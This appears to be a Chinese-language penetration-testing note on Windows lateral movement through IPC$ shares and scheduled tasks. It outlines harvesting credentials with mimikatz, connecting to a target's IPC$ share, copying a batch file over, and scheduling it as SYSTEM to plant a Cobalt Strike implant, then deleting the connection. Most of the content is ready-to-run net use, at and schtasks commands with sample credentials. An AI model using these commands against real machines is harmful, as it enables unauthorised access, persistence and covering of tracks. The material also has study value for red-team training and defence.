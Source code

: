 ![](https://s4.ax1x.com/2021/12/11/oTDIU0.png)

#### IPC$+计划任务/系统服务

IPC是进程通信管道，通过提供用户名密码建立了一条安全的、加密的、用于数据交换的通道。当然，还是在同一个时间，还是同样的两个IP，他们之间只能建立一个IPC$连接，通过这个连接，可以实现在被连接的目标机器上搞文件上传、下载、命令执行

###### 步骤

（0）拿到某台主机信息收集，用minikatz拿到账号和密码信息

（1）首先建立向目标主机的IPC$连接（at和schtask）（win2012前用at，之后用schtask）

（2）其次把命令执行的脚本传到目标主机

（3）再次创建计划任务在目标机器上马，直接CS上线

（4）最后过河拆桥删除IPC$连接

###### 条件

（1）目标机器没有禁用IPC\$连接，没有什么防火防盗拦截IPC$，139 445 端口也开了（能走445走445，不能则走139）

（2）目标机器小管理员开了IPC$默认共享服务

（3）获取了目标机器的小管理员的管理员权限的账号密码（最好是域管理员账号密码），明文的

（4）目标系统能支持IPC$，且和攻击机能彼此互通

~~~
net use \\server\ipc$"password" /user:username # 工作组
net use \\server\ipc$"password" /user:domain\username #域内
dir \\xx.xx.xx.xx\C$\ # 查看文件列表
copy \\xx.xx.xx.xx\C$\1.bat 1.bat # 下载文件
copy 1.bat \\xx.xx.xx.xx\C$ # 复制文件
net use \\xx.xx.xx.xx\C$\1.bat /del # 删除 IPC
net view xx.xx.xx.xx # 查看对方共享
~~~

~~~
[at] & [schtasks]
#at < Windows2012
net use \\192.168.3.21\ipc$ "Admin12345" /user:god.org\ad
ministrator # 建立 ipc 连接：
copy add.bat \\192.168.3.21\c$ #拷贝执行文件到目标机器
at \\192.168.3.21 15:47 c:\add.bat #添加计划任务
#schtasks >=Windows2012
net use \\192.168.3.32\ipc$ "admin!@#45" /user:god.org\ad
ministrator # 建立 ipc 连接：
copy add.bat \\192.168.3.32\c$ #复制文件到其 C 盘
schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn adduser /sc DAILY /tr c:\add.bat /F #创建 adduser 任务
对应执行文件
schtasks /run /s 192.168.3.32 /tn adduser /i #运行 adduser 任务
schtasks /delete /s 192.168.3.21 /tn adduser /f#删除 adduser 任务
~~~


